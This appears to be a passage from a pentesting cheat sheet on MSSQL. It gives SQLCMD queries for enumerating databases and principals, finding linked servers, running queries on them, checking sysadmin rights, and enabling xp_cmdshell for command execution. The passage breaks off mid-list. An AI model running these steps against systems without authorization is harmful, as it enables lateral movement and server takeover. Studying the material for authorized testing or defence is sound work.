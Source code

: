 *   **Tool:** \[\[SQLCMD]]

    ```sql
    SELECT name FROM sys.databases;
    ```
* **Description:** Lists all databases on the SQL Server, useful for identifying sensitive data.

#### Enumerating Users and Roles

*   **Tool:** \[\[SQLCMD]]

    ```sql
    SELECT name, type_desc FROM sys.server_principals;
    ```
* **Description:** Lists all users and their roles within SQL Server, useful for understanding access levels.

### Lateral Movement, Pivoting, and Tunnelling

#### Communicate with Linked Servers with MSSQL

* **Tool:** \[\[SQLCMD]]
* MSSQL has a configuration option called linked servers. Linked servers are typically configured to enable the database engine to execute a Transact-SQL statement that includes tables in another instance of SQL Server, or another database product such as Oracle.

1.  **Identify Linked Servers in MSSQL:**

    ```c
    1> SELECT srvname, isremote FROM sysservers
    2> GO
    ```
2.  **Interacting with Linked Servers:**

    ```c
    1> EXECUTE() AT [linked server]
    2> GO
    ```
3.  **Identify the user used for the connection and its privileges:** `1` means is a remote server, and `0` is a linked server.

    ```c
    1> EXECUTE('select @@servername, @@version, system_user, is_srvrolemember(''sysadmin'')') AT [10.0.0.12\SQLEXPRESS]
    2> GO
    ```
4.  **Enable `xp_cmdshell` on Linked Servers:** If we need to use quotes in our query to the linked server, we need to use single double quotes to escape the single quote. To run multiples commands at once we can divide them up with a semi colon (;).

    ```c
    EXEC sp_configure 'show advanced options', 1; RECONFIGURE; EXEC sp_configure 'xp_cmdshell', 1; RECONFIGURE;
    ```
5.  **To run a single command:**
